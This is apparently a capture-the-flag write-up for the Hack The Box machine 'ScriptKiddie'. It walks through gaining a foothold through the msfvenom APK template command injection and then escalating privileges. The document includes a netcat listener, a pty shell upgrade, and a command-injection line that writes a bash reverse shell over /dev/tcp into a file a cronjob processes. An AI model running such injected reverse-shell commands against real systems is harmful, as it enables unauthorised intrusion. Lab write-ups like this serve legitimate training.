

# ScriptKiddie
### Machine Maker(s): [0xdf](https://www.hackthebox.eu/home/users/profile/4935)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 20
Release     : 06 Feb 2021
IP          : 10.10.10.226
```
---
## Enumeration

Scanning the ip address we find an open **SSH** port and a web-page hosted on port 5000         


I tried running dirbuster in hopes of finding a directory for uploads of the template file but it was in vain.       

I checked the sourcecode couldn't find much of anything there, checked for filters in the input, checked for js files but none of them were linked in the sourcecode. 

After lurking in the Official forum for sometime they were talking about metasploit a lot but I didn't understand why. Then I read the payloads section again, it must be something related to template file upload and msfvenom, so i started googling.

## Foothold

I found a **command injection vulnerability** in msfvenom payload generator when using a crafted APK file as a Android payload template.

After looking up in different sites I found how to reproduce it in the Official Metasploit [repo](https://github.com/rapid7/metasploit-framework/pull/14331)

Following the instructions there I was able to generate an apk file using msfconsole.
     
Fire up a netcat listener for the reverse shell      
```bash
$ nc -lvnp port
```
and enter your LHOST and upload your apk file onto the target site.

We got a reverse shell.         
Use this to get a python interactive shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation                

After lurking around we find another user **pwn** who has a cronjob running so we try to get a horizontal privilege escalation.

The scanloser.sh file doesn't have write permissions for user kid **kid**.      
Looks like hackers is being run everytime scanlosers.sh runs so we try to write into that, **kid** has permissions to write into it.        

So we try to write a bash reverse shell.        
use the following command to echo the bash shell into hackers
```bash
echo "         ; /bin/bash -c 'bash -i >& /dev/tcp/ip_address/port 0>&1'  #" >> hackers
```
Don't forget to fire up another netcat listener for this as well.

We get the shell for the user pwn       
Let's check the user permissions for this user
```bash
$ sudo -l
```
We can run /opt/metasploit-framework-6.0.9/msfconsole without password as root

Lets fire up msfconsole and check the root.txt from there.
```bash
msf6 > cat /root/root.txt
```

Voila! We have the root flag.
